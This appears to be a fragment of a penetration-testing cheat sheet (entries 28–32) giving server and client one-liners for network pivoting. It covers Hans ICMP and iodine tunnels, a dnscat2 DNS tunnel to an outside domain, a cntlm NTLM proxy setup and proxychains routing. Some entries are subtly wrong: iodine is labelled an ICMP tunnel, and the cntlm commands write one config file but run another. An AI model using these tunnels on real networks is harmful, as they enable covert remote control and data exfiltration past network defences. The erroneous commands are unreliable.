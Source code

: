 https://artkond.com/2017/03/23/pivoting-guide/
__________
### 28. Hans ICMP tunnel, first cmd is server, second client
```
./hans -v -f -s 100.64.1.1 -p [password]; ./hans -f -c [ip] -p [password] -v
```
**- linux,pivoting**
#### References:

https://artkond.com/2017/03/23/pivoting-guide/
http://code.gerade.org/hans/
__________
### 29. ICMP tunnel, first cmd is server, second client
```
iodined -f -c -P [password] 100.164.1.1 [serveraddr]; iodine -f -P [password] [serveraddr] -r
```
**- linux,pivoting**
#### References:

http://code.kryo.se/iodine/
https://artkond.com/2017/03/23/pivoting-guide/
__________
### 30. DNS tunnel, first cmd is server, second client.
```
ruby ./dnscat2.rb tunneldomain.com; ./dnscat2 tunneldomain.com
```
**- linux,pivoting**
#### References:

https://artkond.com/2017/03/23/pivoting-guide/
https://github.com/iagox86/dnscat2
__________
### 31. NTLM aware proxy client, proxychains
```
echo "Username [user]" >> config; echo "Password [pass]" >> config; echo "Domain [domain]" >> config; echo "Proxy [proxyIP]" >> config; echo "Tunnel [lport]:[lip]:[rport]" >> config; cntlm.exe -c config.conf
```
**- linux,pivoting,Windows**
#### References:

https://artkond.com/2017/03/23/pivoting-guide/
http://cntlm.sourceforge.net/	
__________
### 32. Run program over socks proxy
```
echo "[ProxyList]" > /etc/proxychains.conf; echo "socks4  127.0.0.1 2222" >> /etc/proxychains.conf; proxychains [program]
```
**- linux,pivoting**
#### References:

